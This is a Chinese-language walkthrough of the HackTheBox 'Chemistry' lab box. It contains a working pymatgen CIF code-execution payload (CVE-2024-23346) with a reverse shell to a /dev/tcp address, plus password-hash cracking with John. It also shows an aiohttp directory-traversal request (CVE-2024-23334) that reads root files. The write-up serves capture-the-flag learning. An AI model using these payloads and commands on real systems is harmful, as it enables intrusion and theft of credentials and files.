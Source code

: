 ```yaml
---
title: "HTB-Chemistry"
date: 2024-12-17
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap Chemistry.htb -sS -Pn -T4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:11 CST
Nmap scan report for Chemistry.htb (10.10.11.38)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

开放端口：`22`、`5000`

进入`http://chemistry.htb:5000/`

![](./images/image-97.png)

可以进行CIF晶体学信息文件(`Crystallographic Information File`)文件上传

给出的示例文件内容是这样的

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_b    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

## CVE-2024-23346

经过`Google`搜寻这个`CIF`文件相关的`CVE`，我找到了这个👇

- [Critical Security Flaw in Pymatgen Library (CVE-2024-23346) - vsociety (vicarius.io)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)

- [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation\_string · Advisory · materialsproject/pymatgen (github.com)](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

在Github里给出的Poc原型是这样的

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

有效载荷就是下面的`_space_group_magn`那一段，因此仿照这个`Poc`构造一个反弹`shell`（注意单引号的转义，因为最外面是有一层单引号包裹的）

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.xx.xx/100 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

设置监听，上传之后点击`View`查看，可以看到成功反弹到`Shell`

![](./images/image-98.png)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在`instance`目录下发现一个数据库文件

![](./images/image-99.png)

可以开启一个httpserver的服务将其下载下来

![](./images/image-100.png)

我在`/home`目录下发现了另一个用户：`rosa`，并且`database.db`中也存在他的密码`hash`，因此可以使用`John The Ripper`进行爆破密码

```
[root@kali] /home/kali/Chemistry  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5                                             ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)     
1g 0:00:00:00 DONE (2024-12-17 20:57) 1.265g/s 3774Kp/s 3774Kc/s 3774KC/s uniden206..unicornios2805
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

得到用户密码

```
username：rosa
password：unicorniosrosados
```

`SSH`直接登录获取到`User.txt`

![](./images/image-101.png)

## ReadAnyFiles

上传linpeas，发现存在开放的内网端口

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                               
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      7928/bash                                                                   
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

将`8080`端口代理出来，我这里是代理到了本地的`8000`端口，因为`8080`端口是`Bursuite`的默认使用端口

![](./images/image-102.png)

```
Server：Python/3.9 aiohttp/3.9.1
```

这是一个利用的点，搜索`aiohttp`的相关版本漏洞

- [CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability (ethicalhacking.uk)](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0)

找到一个目录穿越的漏洞，不过这里有一个坑，因为所有的`poc`都是基于`/static`目录进行穿越的，而这里的内网端口上没有这个目录

![](./images/image-103.png)

存在`/assets`目录，我们可以基于这个目录来进行目录穿越

根据上面文章里的测试一下，读取成功

![](./images/image-104.png)

这里我本来想读取密码`Hash`然后爆破一下`root`的密码的，但是好像爆不出来😂，直接读取`flag`吧

```
[root@kali] /home/kali/Chemistry  
❯ curl -s --path-as-is "http://127.0.0.1:8000/assets/../../../../../root/root.txt"    
```

![](./images/image-105.png)

## Summary

`User`：就是简单的文件上传`CVE`反弹`Shell`，然后数据库信息泄露，爆破用户密码进行`ssh`登录。

`Root`：`Webserver`的版本漏洞，可以造成任意文件读取，不过有前提是必须要踏板目录存在，比如说这个`Machine`中不存在其他`Poc`中的`/static`，所以需要借助`/assets`目录来进行穿越。假如没有任何可访问目录的话，应该也就无法复现这个`CVE`了。也可以直接通过读取**ssh**密钥后进行**root**登录。
